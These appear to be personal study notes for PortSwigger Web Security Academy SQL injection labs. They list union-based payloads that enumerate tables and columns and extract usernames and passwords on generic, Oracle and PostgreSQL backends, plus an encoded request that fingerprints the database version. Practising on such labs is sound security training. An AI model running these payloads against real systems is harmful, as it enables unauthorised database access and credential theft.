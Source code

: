 ```
' union SELECT table_name,NULL FROM information_schema.tables--
' union SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_ckixjs'--
' union SELECT username_trpnyf,password_yzdqam FROM users_ckixjs--
t7wdl4gsgmu91w1h27y1
```
### Lab6
Same thing on Oracle
[Lab: SQL injection attack, listing the database contents on Oracle | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
```
' union SELECT table_name,NULL FROM all_tables--
' union SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_YTEFVA'--
' union SELECT USERNAME_SXNSWN,PASSWORD_LQYSAM FROM USERS_YTEFVA--
802scejeqn0ecu35b0fi
```

Using select ? instead of select *


### Lab7
- `' union select NULL,'hwPw0Q',NULL --%20` 
- `' union select username,password from users --%20`
- `' union select null,'a' from users--%20`
- `' union select null,version() --%20`
- `' union select null,concat(username,'~',password) from users--%20`

### Lab 9: [Retrieve data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Target: Retrieve usernames and passwords from the table users. 
```sql
category='' or true -- 
category='' order by 2 -- 
  ctr+u on burp => ''+order+by+2+--+ -- Try 'URL encode as you type'
union select null,null --
union select 'a','a' --
```

Tried @@version, version():
```http
GET /filter?category='+union+select+version(),'a'+--+ HTTP/2
```
> version: `PostgreSQL` 12.16 (Ubuntu 12.16-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit

```sql
union SELECT table_name,null FROM information_schema.tables -- 
union SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' -- 
  -- columns: username, password
```

